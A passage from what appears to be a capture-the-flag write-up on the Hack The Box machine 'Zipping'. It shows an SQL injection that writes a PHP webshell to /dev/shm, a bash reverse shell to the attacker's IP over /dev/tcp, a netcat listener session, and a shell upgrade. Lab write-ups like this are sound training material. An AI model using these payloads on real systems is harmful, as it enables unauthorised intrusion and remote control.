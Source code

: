 [_Click for full image_](../img/image-20240110110422182.png)

That’s executing my PHP to show the info. That’s code execution.

It’s worth nothing that while this works in `/dev/shm`, it won’t work in
`/tmp`, because Apache’s using a sandboxed `tmp` directory, `SYSTEMD_PRIVATE`.
.

#### Webshell / Shell

To get a webshell, I’ll change the injection to write a webshell:

    
    
    id=%0A100'+union+select+"<?php+system($_REQUEST['cmd']);+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/shell.php";--+-1
    

Now to execute it I’ll just visit it with `cmd=id`:

![image-20240110111010789](../img/image-20240110111010789.png)

To turn that into a shell, I’ll start `nc` and update the `cmd` to a [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
    

It is important to encode the `&` to `%26` so that it’s not treated as the end
of the parameter and start of another.

At `nc`, I get a shell:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.229 49150
    bash: cannot set terminal process group (1155): Inappropriate ioctl for device
    bash: no job control in this shell
    rektsu@zipping:/var/www/html/shop$ 
    

I’ll upgrade using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    rektsu@zipping:/var/www/html/shop$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    rektsu@zipping:/var/www/html/shop$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    rektsu@zipping:/var/www/html/shop$
    